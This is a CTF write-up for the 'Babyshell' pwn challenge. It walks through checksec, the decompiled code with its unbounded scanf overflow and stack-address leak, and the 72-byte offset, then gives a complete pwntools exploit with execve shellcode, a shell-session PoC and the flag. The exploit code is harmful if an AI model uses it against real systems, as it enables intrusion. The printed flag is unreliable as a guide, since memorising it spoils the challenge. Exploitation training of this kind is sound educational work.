 # Babyshell :shell:

## Description: 

* You found a little baby crying inside a basket! It looks like it lost its shell-toy. Please, buy a new one for the poor baby.

## Objective: 

* Take advantage of *BufferOverflow* , `NX` disabled and leaked `buffer address`to inject shellcode.

## Flag: :black_flag:
* UNIWA{b4by_l0v3s_th3_sh3ll}

## Challenge:

First of all, we start with a `checksec`:  

```sh
gef➤  checksec 
[+] checksec for '/home/w3th4nds/github/UniWA_CTF_2020-2021/pwn/baby_shell/babyshell'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

As we can see only `PIE` is enabled.

The interface of the program looks like this:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/baby_shell$ ./babyshell 
~Inside the toy store~

Current cash: 6.9$

[1] Pay with cash (22.69$).
[2] Enter gift code.
> 2
Insert gift code:
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
This is a gift-code for your next purchase: [0x7ffdba507ce0]
Do you need anything else?
```

We see there are 2 options and a `leak`.  

### Disassembly :pick:

Starting fro `main`:

```c
undefined8 main(void)

{
  int iVar1;
  undefined local_48 [32];
  char local_28 [28];
  int local_c;
  
  setup();
  puts("~Inside the toy store~\n");
  printf((char *)0x401b99999999999a,"Current cash: %.1f$\n\n");
  printf("[1] Pay with cash (22.69$).\n[2] Enter gift code.\n> ");
  __isoc99_scanf(&DAT_00100b3c,&local_c);
  if (local_c == 1) {
    printf("You do not have enough money!");
  }
  else {
    if (local_c == 2) {
      printf("Insert gift code:\n> ");
      read(0,local_28,10);
      iVar1 = strcmp("tw1nkl3tw1nkl3",local_28);
      if (iVar1 == 0) {
        puts("The gift code is not valid!");
                    /* WARNING: Subroutine does not return */
        exit(0x45);
      }
      printf("This is a gift-code for your next purchase: [%p]\nDo you need anything else?\n> ",
             local_48);
      __isoc99_scanf(&DAT_00100bef,local_48);
    }
  }
  return 0;
}
```

As we can see, we have a `leak` of the buffer we write (`local_48`).

We also have an `Overflow` due to `scanf` having no limits here.

So, our goal is:

* Save`leaked` address.
* Fill the buffer with our `shellcode` and `nops` and overwrite the `return` address with our `leaked` address.

We found form `gdb` that the `return` address is after 72 bytes:

```gdb
[+] Found at offset 72 (big-endian search)
```

The final payload looks like this:

```python
payload = sc.ljust(72, b'\x90') + p64(leaked)
```

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = 'some_ip' # change this
port = 6969 # change this
fname = './babyshell' # change this

LOCAL = True

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)

def pwn():
	sla('>', '2')
	sla('>', 'random')
	sc = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

	ru('[')
	leaked = int(ru(']')[:-1],16)
	print('Leaked: 0x{:x}'.format(leaked)) 
	payload = sc.ljust(72, b'\x90') + p64(leaked)
	sla('>', payload)
	inter()


if __name__ == '__main__':
	pwn()
```



### PoC: :checkered_flag:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/baby_shell$ ./exp.py 
[+] Starting local process './babyshell': pid 9572
Leaked: 0x7ffc2582f8d0
[*] Switching to interactive mode
 $ ls
Makefile  README.md  babyshell    babyshell.c  core  exp.py  flag.txt
$ cat flag.txt
UNIWA{b4by_l0v3s_th3_sh3ll}
```

